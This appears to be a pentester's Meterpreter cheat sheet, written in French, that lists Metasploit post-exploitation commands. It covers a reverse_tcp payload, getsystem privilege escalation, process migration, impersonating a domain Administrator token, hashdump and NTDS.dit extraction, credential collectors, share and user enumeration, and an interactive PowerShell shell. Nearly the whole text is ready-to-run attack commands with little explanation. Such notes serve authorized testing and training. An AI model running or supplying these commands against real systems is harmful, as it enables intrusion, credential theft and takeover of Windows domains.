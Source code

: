 # Meterpreter
From cmd, bash, netcat ou ssh to meterprer: sessions -u <shell dans metasploit>


## lancer un explot avec meterpreter 64bits:
set payload windows/x64/meterpreter/reverse_tcp


## commands:
getuid
use priv
getsystem
sysinfo
run  post/windows/gather/win_privs


## process:
ps
migrate <pid>
getpid
run post/windows/manage/migrate


## fichier:
upload
download

## Tokens
use incognito #(recuperer les tokens sur le systeme)
list_tokens -u
impersonate_token SNEAKS.IN\\Administrator
getuid
shell

## kerberos:
kerberos_ticket_list

## Autres exploits

background

use exploit/windows/local/ 


#revenir à la session
sessions -i 1

run post/windows/gather/hashdump #dump de creds
run post/windows/gather/credentials/domain_hashdump #dump NTDIS.dit
run post/windows/gather/enum_snmp
run post/windows/gather/usb_history 
run post/windows/gather/enum_shares
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_applications
run post/windows/gather/dumplinks
run post/windows/manage/migrate
run post/windows/gather/credentials/credential_collector #excellent
run post/windows/gather/checkvm
run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
run post/windows/gather/credentials/gpp
run post/windows/gather/credentials/windows_autologin 

## excellent:
use post/multi/recon/local_exploit_suggester


## powershell:
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_
powershell_execute  powershell_import   powershell_shell    
meterpreter > powershell_shell
PS > ls


## à test: 
run post/windows/gather/bloodhound


